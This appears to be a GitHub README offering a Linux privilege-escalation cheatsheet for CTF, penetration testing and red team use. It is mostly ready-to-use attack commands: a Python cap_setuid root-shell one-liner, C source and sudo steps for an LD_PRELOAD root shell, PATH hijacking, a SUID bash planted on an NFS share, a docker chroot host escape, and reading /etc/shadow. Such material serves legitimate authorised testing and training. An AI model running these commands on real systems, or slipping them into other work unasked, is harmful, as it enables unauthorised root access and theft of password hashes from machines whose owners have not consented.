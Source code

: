 # linux-privilege-escalation-cheatsheet
This is a practical cheatsheet for Linux Privilege Escalation, ordered by priority.  
It is intended for Capture The Flag (CTF) exercises, penetration testing, and red team operations.  
Each section includes examples and ready-to-use commands.

General Info & Enumeration
Always perform this first: identify running processes, open ports, users, and interesting files to find escalation opportunities.

Essential commands:
whoami  
id  
hostname  
uname -a  
ps aux  
netstat -tulnp  
ss -tulnp  
env  
find / -name "*.log" 2>/dev/null  
find / -writable -type d 2>/dev/null  
cat /etc/crontab  
ls -la /etc/cron.*  
ls -la /var/spool/cron  
ls -la /home  
ls -la /tmp  
sudo -l  

--------------------------------------------------------------------------------------

# **SUDO**
Allows executing commands with elevated privileges if permitted in the sudoers file.  

sudo -l  
If a binary is listed, search it on GTFOBins.

--------------------------------------------------------------------------------------

# **SUID (Set User ID)**
Binaries that run with root privileges even when executed by unprivileged users.  

find / -perm -4000 -type f 2>/dev/null  
find / -perm /4000 2>/dev/null  
Check each binary on GTFOBins for known exploits.  

--------------------------------------------------------------------------------------

# **Capabilities**
Check if regular binaries have special capabilities like cap_setuid, which allow privilege escalation.  

getcap -r / 2>/dev/null  

If cap_setuid+ep is found on binaries like Python:  
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")' 

--------------------------------------------------------------------------------------

# **LD_PRELOAD / LD_LIBRARY_PATH**
Advanced technique using environment variables and sudo to run arbitrary code.  

Check if LD_PRELOAD is allowed:  
sudo -l

Create this C code:  
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  
  
void _init() {  
   unsetenv("LD_PRELOAD");  
   setgid(0);  
   setuid(0);  
   system("/bin/bash");  
}  

Compile it:  
gcc -fPIC -shared -o /tmp/lib.so shell.c -nostartfiles  

Execute an allowed command:  
sudo LD_PRELOAD=/tmp/lib.so <command>  

Example:  
sudo LD_PRELOAD=/tmp/lib.so find  

--------------------------------------------------------------------------------------

# **Cron Jobs**  
Scheduled scripts executed by root. If editable, they are exploitable.  

cat /etc/crontab  
ls -la /etc/cron.*  
ls -la /var/spool/cron  
  
Check if any scheduled scripts are writable or vulnerable to PATH hijacking.  

--------------------------------------------------------------------------------------

# **Weak File Permissions**
Critical files like /etc/shadow or /etc/passwd with unsafe permissions may allow hash reading or user modification.
  
find / -writable -type f -user root 2>/dev/null  
cat /etc/shadow  
cat /etc/passwd  

--------------------------------------------------------------------------------------

# **PATH Hijacking**  
If a script executed by root uses commands without absolute paths, you can hijack the PATH to run your own version.  
  
echo "/bin/bash" > cp  
chmod +x cp  
export PATH=.:$PATH  
./script.sh  

--------------------------------------------------------------------------------------

# **NFS Misconfiguration**  
If an NFS share is mounted with no_root_squash, you can upload SUID binaries and execute them remotely.  
  
showmount -e <IP>  
mount -t nfs <IP>:/home/backup /mnt/backup  
cp /bin/bash /mnt/backup/rootbash  
chmod +s /mnt/backup/rootbash  
  
--------------------------------------------------------------------------------------
   
# **Docker Misconfiguration**  
If the user is in the docker group, they can access the host by running privileged containers.  
  
id  # Check if you're in the docker group  
docker run -v /:/mnt --rm -it alpine chroot /mnt sh  
  
--------------------------------------------------------------------------------------

# **Kernel Exploits**  
Last resort. Use known exploits against vulnerable kernels (e.g., Dirty COW, OverlayFS).  
  
uname -a  
searchsploit linux kernel  










